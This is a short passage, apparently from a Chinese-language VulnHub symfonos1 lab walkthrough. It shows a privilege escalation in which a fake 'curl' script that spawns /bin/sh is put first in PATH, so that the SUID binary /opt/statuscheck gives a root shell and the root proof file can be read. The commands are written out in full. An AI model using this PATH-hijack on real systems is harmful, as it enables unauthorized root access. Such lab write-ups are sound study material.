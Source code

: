 ![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/23.png)

看上去是使用 curl 访问本地网页, `curl -I http://localhost`

这里可以写一个自定义的 curl 文件,让其提权
```
cd /tmp
echo $'#!/bin/sh\n/bin/sh' > curl
chmod +x curl
export PATH=$(pwd):$PATH
/opt/statuscheck
whoami
cd /root
ls
cat proof.txt
```
